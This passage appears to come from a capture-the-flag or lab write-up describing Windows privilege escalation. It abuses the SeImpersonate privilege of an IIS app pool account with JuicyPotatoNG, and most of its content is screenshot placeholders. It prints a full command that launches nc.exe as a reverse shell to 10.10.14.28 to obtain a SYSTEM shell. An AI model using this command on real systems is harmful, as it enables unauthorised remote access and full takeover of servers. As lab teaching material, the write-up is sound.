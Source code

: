 ![](https://miro.medium.com/v2/resize:fit:700/0*sWDANN7-ktSJUYt5)

Transfer it and execute it

![](https://miro.medium.com/v2/resize:fit:700/0*k42wnTiwx4VJ1i35)

![](https://miro.medium.com/v2/resize:fit:604/0*lLyEUUCFcaXfPYEP)

On checking privileges of `iis appol` , `SeImpersonate` was enabled

![](https://miro.medium.com/v2/resize:fit:700/0*8GxNvtD46jSmzl8S)

To abuse this, we can use `[JuicyPotato-ng](https://github.com/antonioCoco/JuicyPotatoNG)` to get a system shell

.\potatoe.exe -t * -p "C:\Windows\system32\cmd.exe" -a "/c C:\Windows\Temp\nc.exe 10.10.14.28 6666 -e cmd.exe"

![](https://miro.medium.com/v2/resize:fit:700/0*3MWO3iIITlgYl9ed)

![](https://miro.medium.com/v2/resize:fit:535/0*lELdQF1NnFfZ6dgZ)
